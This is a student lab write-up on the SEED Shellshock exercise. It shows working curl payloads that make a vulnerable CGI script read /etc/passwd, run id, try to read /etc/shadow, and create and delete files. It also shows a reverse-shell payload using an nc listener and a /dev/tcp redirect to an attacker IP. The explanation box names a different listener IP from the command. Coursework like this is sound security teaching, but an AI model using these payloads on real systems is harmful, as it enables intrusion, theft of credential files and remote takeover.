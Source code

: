 ```yaml
---
sidebar_position: 4
id: HW3
title: HW3
tags:
  - Study
  - Graduate
  - System Security
---
```


## Task 3: Launching the Shellshock Attack

### Task 3.A: Retrieve /etc/passwd (Using User-Agent)

![Task 3A](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-a.png)  

We use the `curl` command with the `-A` option to set the `User-Agent` header:

```bash
curl -A "() { :;}; echo Content-type: text/plain; echo; cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

As shown above, the Shellshock exploit executes the `cat /etc/passwd` command.


### Task 3.B: Get Process User ID (Using Referer)

![Task 3B](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-b.png)

We use the `-e` option to set the `Referer` header:

```bash
curl -e "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; /bin/id'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

The output indicates that the server process runs as the `www-data` user, which shows that the exploit successfully executes `/bin/id`.


### Task 3.C: Create a File in /tmp (Using Custom Header)

![Task 3C](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-c.png)  

We use the `-H` option to set a custom header `X-Shellshock`:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; touch /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

No output is returned, as `touch` produces none.  
But after entering the container with `docker exec -it 68997b4796f2 /bin/bash` and running `ls /tmp`, we can see `myfile` listed.


### Task 3.D: Delete the File in /tmp (Using Custom Header)

![Task 3D](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-d.png)

We reuse the `X-Shellshock` header:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; rm /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

Checking again with `ls /tmp` inside the container shows `myfile` no longer exists.


### Question 1: Can we steal `/etc/shadow` from the server?

We can test with:  
```bash
curl -A "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; cat /etc/shadow'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![Question 1](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q1.png)

So the answer is:  
**No**. Because the attack runs as `www-data`, which lacks the necessary permissions to read `/etc/shadow`:


### Question 2: Can we use QUERY_STRING to launch the attack?

We can test with:  
```bash
curl "http://www.seedlab-shellshock.com/cgi-bin/vul.cgi?() { :;}; echo vulnerable"
```

![Question 2](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q2.png)

So the answer is:  
**No**. The output is a `400 Bad Request` error, indicating the server rejected the request.  
`QUERY_STRING` field in the URL would not be parsed as a function definition that `bash_shellshock` can execute.


## Task 4: Getting a Reverse Shell via Shellshock Attack

![Task 4](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/Studio6/task4.png)  

We establish a reverse shell from the victim server (`10.9.0.80`) to the attacker machine (`10.0.2.15`). 

1. First, on the attacker VM, we start a listener:
    ```bash
    nc -nv -l 9090
    ```
2. Then, in a second terminal, we launch the attack using the `User-Agent` header:
    ```bash
    curl -A "() { :;}; /bin/bash_shellshock -c '/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
    ```

We can see that the `nc` terminal shows `Connection received on 10.9.0.80 40356`, followed by a shell prompt: `www-data@68997b4796f2:/usr/lib/cgi-bin$`. We observe messages like _bash: cannot set terminal process group (32): Inappropriate ioctl for device_ and _bash: no job control in this shell_, which are expected in a reverse shell without a proper terminal.

:::tip Payload Explanation

- `() { :;};` triggers the vulnerability by defining a function, allowing commands following it to be executed.
- `/bin/bash_shellshock -c` Executes our command in a vulnerable shell.
- `/bin/bash -i` starts an interactive shell.
- `> /dev/tcp/10.9.0.5/9090` redirects the shell's output to the attacker's listener.
- `0<&1 2>&1` redirects standard input and error to the same socket, allowing full interaction with the shell.

:::